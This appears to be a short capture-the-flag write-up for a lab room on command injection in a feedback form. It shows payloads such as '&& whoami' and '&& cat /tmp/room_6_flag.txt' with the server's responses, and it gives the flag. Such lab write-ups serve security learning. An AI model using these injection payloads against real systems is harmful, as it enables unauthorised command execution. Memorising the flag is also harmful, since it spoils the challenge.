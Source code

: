   Do note that this room is basically accessing the the same Linux shell you are using, but just imagine that you are exploiting a remote server :)

- What is the flag obtained from the `txt` file?
  
  To test for code injection vulnerabilities, you can try a payload like this
  ```
  // input
  && whoami

  // response
  Thank you for your feedback! We shall echo your feedback here:
  kali 
  ```

  The hint mentioned the `/tmp` folder, so use the following payload to view the files in the directory and read the text file
  ```
  // input
  && ls /tmp

  // response
  Thank you for your feedback! We shall echo your feedback here:
  room_6_flag.txt

  // input
  && cat /tmp/room_6_flag.txt

  // response
  Thank you for your feedback! We shall echo your feedback here:
  Oh, you dropped this: 0x4067{WWW_END_OF_CHALLENGE} 
  ```